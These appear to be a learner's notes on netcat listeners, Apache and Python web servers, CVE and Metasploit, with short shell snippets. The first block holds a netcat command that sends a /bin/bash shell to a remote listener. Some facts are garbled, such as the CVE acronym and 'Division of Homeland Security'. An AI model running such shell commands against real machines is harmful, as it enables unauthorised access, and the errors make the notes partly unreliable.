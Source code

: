 To start listening 
```shell
netcat -lvp 2222   # or
nc -lvp 2222
# To call the machine that started listening
ne (ip of the machine) -e /bin/bash
```

# Web servers
- (The hard ware part ) Web server is a computer that can store web server and website's component file (HTML documents, images, CSS, Java Scripts...)
- It is a computer software and hardware that uses HTTP and HTTPS to provide website.
- There are a lot of software that can be installed on the server to make it like webserver.
## 1. Apache Server
- This will help to provide web contents.
- It is built in on linux but on windows we have to install is with a software called Xampp and wampp and it will give you local host web contents.
To start the server software 
```shell
sudo systemctl start apache2 # so from now on our computer will act like a server

```
### Web server - Apache
- The default path of apache2 is /var/www/html
- The file for apache is ["index.html"] from /var/www/html
## 2. Python Server
- We can use python to start web servers.
```shell
python3 -m http.server 9090
```
- Python will help you to host websites from any path with any port from our computer.  
# CVE
- It stands for Common Vulnerabilities.
- CVE is a glossary that classifies vulnerabilities.
- The glossary analyzes vulnerabilities and then uses the Common Vulnerability Scoring System (CVSS) to elevate thee threat level of a vulnerability.
- The CVE glossary is a project dedicated to tracking and cataloging vulnerabilities in consumer software and hardware.
- It is maintained by the MITRE Corporation with funding from the US Division of Homeland Security. 
- Vulnerabilities are collected and cataloged using the Security Content Automation Protocol (SCAP). 
- SCAP evaluates vulnerability information and assigns each vulnerability a unique identifier.
	- CVE-2019-0708
# Metasploit
- It can be used to probe systematic vulnerabilities on networks and servers 
- Written with ruby
- Has a lot of exploits for different vulnerabilities and cve's. 
- It provides:
	- Exploits
	- Payloads (that will )
	- Auxiliaries (it will help to scan further on the system)
	- Encoders
	- Listeners
	- Post-Exploitations codes
_________
To star it
```shell
```
